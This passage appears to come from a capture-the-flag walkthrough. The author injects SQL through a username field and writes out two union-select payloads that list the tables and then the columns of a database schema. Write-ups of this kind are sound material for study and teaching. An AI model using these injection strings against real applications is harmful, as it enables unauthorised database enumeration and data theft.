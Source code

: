 I can list the tables with
`0xdf') union select table_name,1,table_schema from information_schema.tables-- -`:

![](/img/image-20210817140705431.png)

I don't so much care about the `information_schema` db, so I'll focus on
the other, `db`. I can list all the columns in those three tables with
the username:



    0xdf') union select table_name,1,column_name from information_schema.columns where table_schema = 'db'-- -;


